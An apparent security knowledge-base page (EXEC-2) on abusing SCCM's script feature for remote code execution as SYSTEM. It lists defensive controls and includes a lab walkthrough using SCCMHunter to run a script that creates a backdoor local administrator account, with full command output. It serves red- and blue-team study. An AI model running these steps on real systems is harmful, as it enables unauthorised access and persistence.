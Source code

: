 ```yaml
---
title: 'EXEC-2'
description: 'PowerShell script execution'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK TTPs
- [TA0002](https://attack.mitre.org/tactics/TA0002) - Execution
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
Permitted security roles:
- Full Administrator
- Operations Administrator
- A [custom](https://learn.microsoft.com/en-us/mem/configmgr/apps/deploy-use/create-deploy-scripts#bkmk_ScriptRoles) role configured with Create, Modify, Read, Delete, Approve, and Run Script permissions

## Summary
SCCM allows administrators to create and execute custom scripts on a single device or collection of devices.

## Impact
An attacker could use this technique to execute arbitrary code/commands on a remote client device as `SYSTEM`. 

## Defensive IDs
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description)

## Examples
1. Following hiearchy takeover, use `SCCMHunter` to access the admin service API and then identify and interact with a target device. 

    ```
    () (C:\) >> get_device mp
    [13:58:34] INFO     ------------------------------------------                                                                                                                        
                        Active: 1                                                                                                                                                         
                        Client: 1                                                                                                                                                         
                        DistinguishedName: CN=MP,OU=SCCM_SiteSystems,DC=internal,DC=lab                                                                                                   
                        FullDomainName: INTERNAL.LAB                                                                                                                                      
                        IPAddresses: 10.10.100.13                                                                                                                                         
                        LastLogonUserDomain: None                                                                                                                                         
                        LastLogonUserName: None                                                                                                                                           
                        Name: MP                                                                                                                                                          
                        OperatingSystemNameandVersion: Microsoft Windows NT Server 10.0                                                                                                   
                        PrimaryGroupID: 515                                                                                                                                               
                        ResourceId: 16777235                                                                                                                                              
                        ResourceNames: mp.internal.lab                                                                                                                                    
                        SID: S-1-5-21-4004054868-2969153893-1580793631-1106                                                                                                               
                        SMSInstalledSites: LAB                                                                                                                                            
                        SMSUniqueIdentifier: GUID:D78C19DA-D4ED-474F-88D4-1566B96F2732                                                                                                    
                        ------------------------------------------                                                                                                                        
    () (C:\) >> interact 16777235
    (16777235) (C:\) >> 
    ```

2. Create a script. For this example the below is used:

    ```
    net users
    net localgroup administrators
    net user sccm_script P@ssw0rd /add
    net localgroup administrators sccm_script /add
    net localgroup administrators
    ```

3. Execute the script with the `script` command

    ```
    (16777235) (C:\) >> script script.txt
    [14:06:21] INFO     [+] Updates script created successfully with GUID a0627fc9-6680-4850-8691-6b0d31ea0896. 
    [14:06:24] INFO     [+] Script with guid a0627fc9-6680-4850-8691-6b0d31ea0896 approved.
    [14:06:26] INFO     [+] Script with guid a0627fc9-6680-4850-8691-6b0d31ea0896 executed.
    [14:06:43] INFO     [+] Got result:
    [14:06:43] INFO     User accounts for \\\\

                        -------------------------------------------------------------------------------                                                                                   
                        Administrator            DefaultAccount           Guest                                                                                                           
                        WDAGUtilityAccount                                                                                                                                                
                        The command completed with one or more errors.                                                                                                                    
                                                                                                                                                                                        
                        Alias name     administrators                                                                                                                                     
                        Comment        Administrators have complete and unrestricted access to the computer/domain                                                                        
                                                                                                                                                                                        
                        Members                                                                                                                                                           
                                                                                                                                                                                        
                        -------------------------------------------------------------------------------                                                                                   
                        Administrator                                                                                                                                                     
                        LAB\\Domain Admins                                                                                                                                                
                        LAB\\SCCM$                                                                                                                                                        
                        LAB\\SCCM_SiteServers                                                                                                                                             
                        The command completed successfully.                                                                                                                               
                                                                                                                                                                                        
                        The command completed successfully.                                                                                                                               
                                                                                                                                                                                        
                        The command completed successfully.                                                                                                                               
                                                                                                                                                                                        
                        Alias name     administrators                                                                                                                                     
                        Comment        Administrators have complete and unrestricted access to the computer/domain                                                                        
                                                                                                                                                                                        
                        Members                                                                                                                                                           
                                                                                                                                                                                        
                        -------------------------------------------------------------------------------                                                                                   
                        Administrator                                                                                                                                                     
                        LAB\\Domain Admins                                                                                                                                                
                        LAB\\SCCM$                                                                                                                                                        
                        LAB\\SCCM_SiteServers                                                                                                                                             
                        sccm_script                                                                                                                                                       
                        The command completed successfully.                                                                                                                               
    [14:06:45] INFO     [+] Script with GUID a0627fc9-6680-4850-8691-6b0d31ea0896 deleted.           
    ```

## References
- Microsoft, [Create and run PowerShell scripts from the Configuration Manager console](https://learn.microsoft.com/en-us/mem/configmgr/apps/deploy-use/create-deploy-scripts)
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
